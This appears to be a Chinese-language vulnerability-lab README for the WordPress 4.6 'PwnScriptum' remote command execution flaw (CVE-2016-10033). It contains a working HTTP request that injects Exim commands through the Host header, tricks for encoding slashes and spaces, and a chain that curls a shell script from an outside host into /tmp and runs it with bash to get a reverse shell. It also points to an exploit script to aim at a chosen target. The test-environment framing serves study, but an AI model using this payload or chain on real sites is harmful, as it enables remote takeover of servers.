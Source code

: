 # Wordpress 4.6 任意命令执行漏洞（PwnScriptum）

## 原理

参考 https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## 测试环境

编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

由于Mysql初始化需要一段时间，所以请等待。成功运行后，打开站点，初始化管理员用户名和密码后即可使用（数据库等已经配置好，且不会自动更新）。

## 测试与EXP使用

发送如下数据包，可见`/tmp/success`已经成功创建：

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

但实际利用起来，还是有一些坑需要踏过。具体的坑有这么几个：

1. 执行的命令不能包含大量特殊字符，如`:`、引号等。
2. 命令会被转换成小写字母
3. 命令需要使用绝对路径
4. 需要知道某一个存在的用户的用户名

为了解决这些坑，漏洞作者想出了，利用`${substr{0}{1}{$spool_directory}}`代替`/`，用`${substr{10}{1}{$tod_log}}`代替空格的方法。

但是还是有很多字符不能用，所以我们需要将待执行的命令放到第三方网站中，然后通过`curl -o /tmp/rce example.com/shell.sh`的方法先将他下载到/tmp目录中，再去执行。

所以，总体来说利用过程如下：

1. 编写反弹shell的exp，放到某个网页里。有如下要求：
  - 整个url的大写字母会被转换成小写，所以大写小敏感的系统不要使用大写字母做文件路径
  - 访问该网页不能跳转，因为follow跳转的参数是`-L`（大写）
2. 拼接成命令`/usr/bin/curl -o/tmp/rce example.com/shell.sh`和命令`/bin/bash /tmp/rce`
3. 将上述命令中的空格和`/`转换成`${substr{10}{1}{$tod_log}}`和`${substr{0}{1}{$spool_directory}}`
4. 拼接成HTTP包的Host头：`target(any -froot@localhost -be ${run{command}} null)`
5. 依次发送这两个拼接好的数据包

我将上述过程写成[exp脚本](exploit.py)，将脚本中target修改成你的目标，user修改成一个已经存在的用户，`shell_url`修改成你放置payload的网址。（或直接将target作为第一个参数、`shell_url`作为第二个参数）

执行即可获得shell：

![](1.png)